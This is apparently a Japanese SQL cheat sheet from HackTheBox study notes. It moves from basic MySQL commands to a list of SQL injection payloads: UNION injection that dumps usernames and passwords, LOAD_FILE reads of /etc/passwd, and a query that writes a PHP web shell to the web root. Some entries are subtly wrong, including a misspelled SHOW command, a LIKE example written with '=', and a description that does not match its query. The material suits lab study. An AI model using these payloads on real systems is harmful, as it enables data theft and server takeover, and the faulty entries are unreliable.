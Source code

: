 # SQL
- SQLのcheat sheet。


## コマンド集
1. ユーザ名とパスワードを指定してDBへの認証を行う。このとき、-pの後ろに空白は必要ない。  
ただしここで-pによる認証を行うと.bash_historyファイルに平文でパスワードが保存される。なのでコマンドラインから直接入力するべきではない。
```.sql
mysql -u root -p<password>
```

2. ホストとポートを指定して認証を行う。
```.sql
mysql -u root -h docker.hackthebox.eu -P 3306 -p
```

3. hogeという名前のDBを新規で作成する。
```.sql
CREATE DATABASE hoge;
```

4. DBの一覧を表示する。
```.sql
SHOQ DATABASES;
```

5. DBを指定してそのDBとの対話セッションに入る。
```.sql
USE hoge;
```

6. loginsという名前のテーブルを新規で作成する。  
各列、つまりカラムは、見出しの名前(id等)とデータの型を記載する。(INTとか)  
ここでは4つの列を持っており、VARCHAR(100)で、100文字の文字列という意味になる。
```.sql
CREATE TABLE logins (
    id INT,
    username VARCHAR(100),
    password VARCHAR(100),
    date_of_joining DATETIME
    );
```  
  
また、CREATE TABLEで新規でテーブルを作成するとき、プロパティを付与することで様々なオプションが可能。  
例として以下などがあり、NOT NULLをプロパティに含めると、必須のフィールドにNULLが含まれないようになったりする。
```.sql
CREATE TABLE logins (
    id INT,
    username VARCHAR(100) UNIQUE NOT NULL
    );
```

7. 現在のDBに格納されているテーブルを一覧表示する。
```.sql
SHOW TABLES;
```

8. テーブルを指定し、そのテーブルの構造とフィールド・データ型を一覧で表示する。
```.sql
DESCRIBE logins;
```

9. INSERT INTOステートメントによって、table_nameに新しいレコード(VALUES以降)を追加する。
```.sql
INSERT INTO table_name VALUES (1, 'admin', 'p@ssw0rd'...);
```

10. SELECTステートメントで、テーブルから全てのデータを取得する。
```.sql
SELECT * FROM table_name;
```

11. カラム(列のこと)を指定してtable_nameからデータを取得する。
```.sql
SELECT column1, column2 FROM table_name;
```

12. DROPステートメントで、サーバからloginsテーブルを削除する。
```.sql
DROP TABLE logins;
```

13. ALTERステートメントで、既存のloginsテーブルにnewColumnというカラムを追加する。
```.sql
ALTER TABLE logins ADD newColumn INT;
```

14. UPDATEステートメントで、特定の条件に基づいてテーブル内の特定のレコードを更新する。
```.sql
UPDATE table_name SET password = 'change_password' WHERE id > 1;
```

15. ORDER BYでpassword列を指定して並べ替える。
```.sql
SELECT * FROM table_name ORDER BY password;
```

16. WHEREで結果をフィルタする。
```.sql
SELECT * FROM table_name WHERE id > 1;
```

```.sql
SELECT * FROM table_name WHERE username = 'admin';
```

17. LIKEでWHEREによる条件指定をするときに、カラムに含まれる値を正規表現で指定できる。  
以下では、adminで始まる値あusernameカラムにあればそれを取得する。
```.sql
SELECT * FROM table_name WHERE username = 'admin%';
```

18. ()を使ってidのカラムが5のもののみを取得するSQLi
```.sql
') OR (id=5) -- 
```

19. UNION Injectionをするにあたり、ORDER BYによってテーブルのカラム数を特定する。  
ORDER BYの後ろの1は列宇数で、以下の場合だと1列目をソートしている。--の後ろの-は、--の後ろに空白を入れる必要があるのでそれを分かりやすくするために書いている。
```.sql
' ORDER BY 1 -- -
```

20. ORDER BYではなくUNIONによってUNION Injectionに使うカラム数を特定する。
```.sql
' UNION SELECT 1,2,3,4 -- -
```

21. UNIONでカラムが4つとわかった時、JUNKデータとして適当な数字ではなく、DBのバージョンとユーザ名を表示させる。
```.sql
' UNION SELECT 1,@@version,3,user() -- -
```

22. カラム名とテーブル名、データベース名をそれぞれ取得する。@@versionみたいなもの。
```.sql
' UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users'-- -
```

23. ilfreightというDBのusersというテーブルからusenameとpasswordというカラムを取得する。  
別のDB内のテーブルからデータを取得できるのがUNIONのメリット。
```.sql
' UNION SELECT 1, username, password, 4 from ilfreight.users -- -
```

24. UNIONを使って、ユーザ名を取得できる。
```.sql
' UNION SELECT 1, user(), 3, 4-- -
```

25. CURRENT_USER()を使えば現在のユーザ名を取得できる。
```.sql
' UNION SELECT 1, CURRENT_USER(), 3, 4-- -
```

26. LOAD_FILEを使ってファイルを読み取る。権限があるときだけ可能。
```.sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

27. secure_file_privをチェックして書き込み権限があるかをチェックする。
```.sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

28. INTO OUTFILEで指定した場所にfrom usersの結果を書き込む。
```.sql
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

29. 任意の値をOUTFILEで指定した場所に書き込む。
```.sql
SELECT 'hogehoge' INTO OUTFILE '/tmp/test.txt';
```

30. PHPのwebshellを書き込む。
```.sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```